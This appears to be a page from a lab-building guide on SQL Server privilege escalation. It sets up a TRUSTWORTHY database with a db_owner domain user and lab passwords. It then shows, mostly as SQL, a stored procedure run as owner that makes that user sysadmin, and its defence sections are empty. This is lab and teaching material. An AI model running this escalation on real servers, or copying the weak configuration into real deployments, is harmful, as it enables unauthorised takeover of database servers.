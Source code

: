 # DB-Owner

## Configuring

### Prerequisite

{% content-ref url="../initial-access/normal-domain-user-access.md" %}
[normal-domain-user-access.md](../initial-access/normal-domain-user-access.md)
{% endcontent-ref %}

### Configuring

1. Login to `WEB01` as the `Administrator` user with password `Welcome01!`.
2. Open "Microsoft SQL Server Management Studio"

![](<../../../../.gitbook/assets/image (3).png>)

3\. Login with the `sa` user using the password `sa` or `Password1!` (Depending if you changed it for another vulnerability)

![](<../../../../.gitbook/assets/image (30).png>)

4\. Click “New Query” button and use the SQL query below to make `Amsterdam\Richard` database owner of the `production` database.

![](<../../../../.gitbook/assets/image (10).png>)

```
Use Production;
EXEC sp_addrolemember [db_owner], [AMSTERDAM\Richard];
```

5\. Change the Owner of the database to the SA account. Right click on "Production", click "Properties" and open the "Files" tab. Click on the "..." and fill in "sa" and click on "OK"

![](<../../../../.gitbook/assets/image (2).png>)

6\. Execute the following query to make sure `Amsterdam\Richard` is Database owner and the real Owner of the database is `sa`:

```
select rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)

SELECT suser_sname(owner_sid) FROM sys.databases WHERE name = 'Production'
```

![](<../../../../.gitbook/assets/image (68).png>)

![](<../../../../.gitbook/assets/image (53).png>)

7\. Set the database as trustworthy and check if it is:

```
ALTER DATABASE MyAppDb SET TRUSTWORTHY ON
```

![](<../../../../.gitbook/assets/image (65).png>)

```
SELECT a.name,b.is_trustworthy_on
FROM master..sysdatabases as a
INNER JOIN sys.databases as b
ON a.name=b.name;
```

![](<../../../../.gitbook/assets/image (39).png>)

The `1` after `Production` shows us that the database is `ThrustWorthy`.

## Attacking

### How it works

If the database is set as trustworthy and we have db\_owner privileges, we could elevate our privileges and execute queries as sa.

### Tools

* [HeidiSql](https://www.heidisql.com)

### Executing attack

1. Login to `WS01` as Richard with the password `Sample123`.
2. Download and start heidiSQL.
3. Click on "New" on the left bottom and configure the following settings:

* Network Type: `Microsoft SQL Server (TCP/IP)`
* Library: `SQLOLEDB`
* Hostname / IP: `WEB01.amsterdam.bank.local`
* Select: "Use Windows Authentication"
* Port: `1433`

![](<../../../../.gitbook/assets/image (58).png>)

4\. Click "OK" on the security Issue warning.

#### Prerequisites

5\. Click on the "Query" tab and enter the following Query to check if we are `db_owner`:

```
select rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)
```

![](<../../../../.gitbook/assets/image (66).png>)

Our current user `AMSTERDAM\richard` is db\_owner.

6\. Check who is the owner of the database.

```
SELECT suser_sname(owner_sid), * FROM sys.databases
```

![](<../../../../.gitbook/assets/image (59).png>)

`sa` is the owner of the `production` database.

6\. Check if the database is set to trustworthy, otherwise we won't be able to escalate our privileges to the Owner.

```
SELECT a.name,b.is_trustworthy_on
FROM master..sysdatabases as a
INNER JOIN sys.databases as b
ON a.name=b.name;
```

![](<../../../../.gitbook/assets/image (13).png>)

The Production database is trustworty.

#### Executing the attack

7\. Create a stored procedure which will add `AMSTERDAM\Richard` as sysadmin.

```
USE Production;
CREATE PROCEDURE sp_elevate_me
WITH EXECUTE AS OWNER
AS
EXEC sp_addsrvrolemember 'AMSTERDAM\Richard','sysadmin'
```

![](<../../../../.gitbook/assets/image (57).png>)

8\. Execute the stored procedure:

```
USE Production;
EXEC sp_elevate_me
```

![](../../../../.gitbook/assets/image.png)

9\. Check if we are sysadmin:

```
SELECT is_srvrolemember('sysadmin')
```

![](<../../../../.gitbook/assets/image (34).png>)

The `1` means that we are sysadmin! Check the executing commands page under SQL Server Attacks to learn to execute cmd commands:

{% content-ref url="../executing-commands.md" %}
[executing-commands.md](../executing-commands.md)
{% endcontent-ref %}

## Defending

### Recommendations



### Detection



## References

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases" %}
